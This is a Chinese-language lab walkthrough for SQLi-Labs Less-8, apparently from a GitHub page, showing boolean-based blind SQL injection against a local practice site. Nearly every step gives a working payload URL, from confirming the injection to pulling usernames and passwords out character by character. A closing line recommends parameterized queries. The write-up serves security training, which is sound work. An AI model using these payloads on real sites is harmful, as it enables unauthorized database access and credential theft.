










# SQLi-Labs Less-8：布尔盲注

> **实验目标**：页面仅根据 SQL 语句真假返回不同内容（无报错、无回显），通过布尔条件逐字符猜解数据。

## 1. 确认注入点（布尔盲注）

**请求 A**（条件为真）：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and 1=1--+`  
**结果**：页面正常显示 “You are in...........”

**请求 B**（条件为假）：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and 1=2--+`  
**结果**：页面无任何显示（或显示不同）。

通过对比两种响应，确认存在 **布尔盲注**。

  

---

## 2. 猜解数据库名长度

**请求**：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and length(database())=N--+`  
依次尝试 N=1,2,3... 直到页面正常。

**原理**：  
`length(database())` 返回数据库名字符数，若等于 N 则条件为真，页面正常。

**结果**：  
N=8 时页面正常，说明数据库名长度为 8。

---

## 3. 逐字符猜解数据库名

**请求**（猜第 1 个字符的 ASCII 码）：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and ascii(substr(database(),1,1))=115--+`  
（115 对应 's'）

**原理**：  
`substr(database(),1,1)` 取第一个字符，`ascii()` 转成数值，与猜测值比较。

**结果**：  
依次得到 ASCII 码：115,101,99,117,114,105,116,121 → 对应字符串 `security`。

---

## 4. 确定数据库中的表数量

**请求**：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and (SELECT count(table_name) FROM information_schema.tables WHERE table_schema=database())=N--+`

**原理**：  
`count(*)` 返回表总数，与 N 比较。

**结果**：  
N=4 时页面正常，说明有 4 张表。

---

## 5. 猜解特定表名长度（以第 4 张表为例）

**请求**（取得第 4 张表的名称长度）：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and (SELECT length(table_name) FROM information_schema.tables WHERE table_schema=database() limit 3,1)=5--+`

**结果**：长度为 5。

---

## 6. 逐字符猜解表名（仍以第 4 张表为例）

**请求**（第 4 张表第 1 个字符）：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and ascii(substr((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 3,1),1,1))=117--+`  
（117 = 'u'）

**结果**：依次得到字符 `u s e r s` → 表名为 `users`。

---

## 7. 确定 `users` 表的字段数量

**请求**：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and (SELECT count(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='users')=3--+`

**结果**：字段数为 3。

---

## 8. 猜解字段名称长度（逐个字段）

**请求**（第 1 个字段的长度）：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and (SELECT length(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' limit 0,1)=2--+`

依次得到各字段长度，再逐字符猜解名称（类似表名猜解）。

---

## 9. 逐字符猜解字段名

**请求**（第 1 个字段第 1 个字符）：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and ascii(substr((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='users' limit 0,1),1,1))=105--+`  
（105 = 'i'）

**结果**：得到 `id`，同理可得 `username`、`password`。

---

## 10. 脱取数据（逐行逐字符）

**请求**（取第 1 行 `username` 的第 1 个字符）：  
`http://127.0.0.1/sqli-labs/less-8/?id=1' and ascii(substr((SELECT username FROM security.users limit 0,1),1,1))=68--+`  
（68 = 'D'）

**密码同理**：  
`... and ascii(substr((SELECT password FROM security.users limit 0,1),1,1))=68--+`

**结果**：  
第 1 行用户名为 `Dumb`，密码为 `Dumb`。继续调整偏移量和行数即可获取全部数据。

---

## 总结

布尔盲注虽然速度慢，但适用性广（任何有真假差异的页面）。核心技巧是：
- 利用 `length()`、`substr()`、`ascii()` 逐位猜解
- 使用 `limit` 遍历多条记录
- 二分法可大幅提高效率

> **防御建议**：不仅隐藏错误，更要确保查询结果无论真假都返回相同页面（例如通用提示），同时使用参数化查询。
